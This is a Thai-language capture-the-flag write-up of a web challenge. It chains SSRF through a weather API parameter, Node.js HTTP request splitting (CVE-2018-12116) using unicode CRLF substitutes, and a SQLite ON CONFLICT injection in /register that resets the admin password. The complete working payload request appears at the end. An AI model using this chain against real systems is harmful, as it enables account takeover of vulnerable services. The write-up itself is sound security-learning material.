









หน้านี้จะเรียก api/weather 





flag จาก isAdmin



isAdmin จาก username == admin และ register ไม่ได้เช็ค user is exist ?

register จะภูกเรียกผ่าน ip 127.0.0.1 เท่านั้น


เราจะ update password ของ username admin เนื่องจากต้องการ มี username เป็น admin เพื่อผ่าน isAdmin 

และใน schema username   VARCHAR(255) NOT NULL UNIQUE ทำให้ไม่สารถมี user เดียวกัน 2 row ได้

หา command ที่ใช้ duplicate key UPDATE บน sqlite

With SQLite you cannot do the simple MySQL INSERT on duplicate key UPDATE:
```
INSERT INTO `table` (id, name, price, quantity) VALUES(1, 'test', '2.50', 164) ON DUPLICATE KEY UPDATE `quantity` = 164, `price` = '2.50'
```
Instead, you have to do what is called an `upsert`.

The concept is very similar to the MySQL example above. The differences being you have to specify which column is the indexed/key column (unique) and then state the DO UPDATE:
```
INSERT INTO users(username,score) VALUES('Johnny', 388) ON CONFLICT(username) DO UPDATE SET score = '388';
```

https://write.corbpie.com/how-to-do-insert-with-an-update-on-duplicate-using-sqlite/


เนื่องจาก register จะถูกเรียกผ่าน ip 127.0.0.1 เท่านั้น

เราจะ SSRF ผ่าน api/weather บน parameter endpoint



ทดลองเรียก api/weather ด้วยรูปแบบต่างๆ

เงื่อนไขหลัก คือ /register เป็น post method ซึ่ง require body ดังนั้น ท่าทั่วๆไปคงไม่ไหว

"nodeVersion": "v8.12.0" ใน packet.json จะมีช่องโหว่ HTTP request splitting (CVE-2018-12116)

https://github.com/subatiq/Unicode-SSRF


## 🎯 เงื่อนไขหลักสำหรับ HTTP Request Splitting

### 1. **แอปพลิเคชันต้องรับ User Input**
- แอปต้องยอมรับข้อมูลจากผู้ใช้ (GET/POST parameters, headers, etc.)
- ข้อมูลนี้ต้องสามารถควบคุมได้โดยผู้โจมตี

### 2. **ข้อมูล User Input ต้องไปอยู่ใน HTTP Request Path/Headers**
- แอปต้องนำ user input ไปใส่ในส่วนของ:
  - Request URL/Path
  - HTTP Headers 
  - Query parameters
- **ไม่ใช่** request body

### 3. **แอปต้องทำ Outbound HTTP Request**
- แอปต้องส่ง HTTP request ไปยัง server อื่น
- มักเป็น internal services, APIs, หรือ backend systems

### 4. **ไม่มีการ Validate/Sanitize Input**
- แอปไม่ได้ filter หรือ escape control characters
- ไม่มีการตรวจสอบ CR (`\r`) และ LF (`\n`)

ตัวอย่าง



https://hackerone.com/reports/409943


```
Request 1: GET /127.0.0.1:88/ HTTP/1.1
           Host: 127.0.0.1:88

Request 2: POST /register HTTP/1.1
           Host: 127.0.0.1:88
           Content-Type: application/x-www-form-urlencoded
           Content-Length: [X]

           username=admin&password=...

Request 3: GET [ข้อมูลที่เหลือจาก original request]
```



```
POST /api/weather HTTP/1.1
Host: 83.136.253.59:57461
Content-Length: 345
sec-ch-ua-platform: "Windows"
Accept-Language: en-US,en;q=0.9
sec-ch-ua: "Not)A;Brand";v="8", "Chromium";v="138"
Content-Type: application/json
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: */*
Origin: http://83.136.253.59:57461
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{"endpoint":"127.0.0.1:80/ĠHTTP/1.1čĊHost:Ġ127.0.0.1:80čĊčĊPOSTĠ/registerĠHTTP/1.1čĊHost:Ġ127.0.0.1:80čĊContent-Type:Ġapplication/x-www-form-urlencodedčĊContent-Length:Ġ89čĊčĊusername=admin&password=%27)ĠONĠCONFLICTĠ(username)ĠDOĠUPDATEĠSETĠpasswordĠ=%27123456%27;čĊčĊGETĠ","city":"Chiang Mai","country":"TH"}
```

